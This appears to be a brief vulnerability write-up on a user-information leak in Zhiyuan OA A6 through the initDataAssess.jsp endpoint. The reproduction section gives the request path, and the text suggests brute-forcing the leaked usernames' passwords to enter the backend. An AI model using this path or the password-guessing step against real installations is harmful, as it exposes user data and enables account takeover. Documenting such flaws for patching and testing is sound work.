 # Zhiyuan OA A6 initDataAssess.jsp User sensitive information leak

## Vulnerability Description

Zhiyuan OA A6 initDataAssess.jsp There is a leak of user sensitive information

You can use the username to blast the user password to enter the background for further attacks

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6</span>

## Network surveying and mapping



## Vulnerability reappears

Visit the following URL to reveal user information

```plain
https://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```